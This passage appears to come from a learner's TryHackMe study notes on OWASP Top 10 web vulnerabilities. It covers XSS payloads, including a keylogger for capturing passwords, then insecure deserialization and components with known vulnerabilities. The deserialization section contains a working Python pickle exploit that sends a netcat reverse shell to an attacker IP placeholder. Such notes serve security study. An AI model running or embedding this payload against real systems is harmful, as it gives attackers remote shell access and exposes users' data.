 	- XSS Keylogger (http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js.html) - You can log all keystrokes of a user, capturing their password and other sensitive information they type into the webpage.
	- Port scanning (http://www.xss-payloads.com/payloads/scripts/portscanapi.js.html) - A mini local port scanner (more information on this is covered in the TryHackMe XSS room).

## Insecure Deserialization
- Replacing data processed by an application with malicious code, allowing anything from DoS to RCE
- Characteristics
	- Low exploitability - the vulnerability is often a case-by-case basis, there is no reliable tool/framework for it. Attackers need to have a good understanding of the inner workings of the techonology
	- Exploit is only as dangerous as the attacker's skill permits and the value of the data exposed
- What's vulnerable?
	- Anything that stores or fetches data where there are no validations or integrity checks in place for data queried or retained
	- E-commerce sites
	- Forums
	- APIs
	- Application runtimes
- Serialization - the process of converting objects used in programming into simpler, compatible formatting for transmitting between systems or networks for further processing or storage
- Ex.
	- A Tourist approaches you in the street asking for directions. They're looking for a local landmark and got lost. Unfortunately, English isn't their strong point and nor do you speak their dialect either. What do you do? You draw a map of the route to the landmark because pictures cross language barriers, they were able to find the landmark. Nice! You've just serialised some information, where the tourist then deserialised it to find the landmark.
	- Say you have a password of "password123" from a program that needs to be stored in a database on another system. To travel across a network this string/output needs to be converted to binary. Of course, the password needs to be stored as "password123" and not its binary notation. Once this reaches the database, it is converted or deserialised back into "password123" so it can be stored.
- Python pickles example
```
import pickle
import sys
import base64

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat YOUR_TRYHACKME_VPN_IP 4444 > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))
```

## Components With Known Vulnerabilities
- Companies may be using software that have well documented vulnerabilities
- Exploits can be found on exploit-db
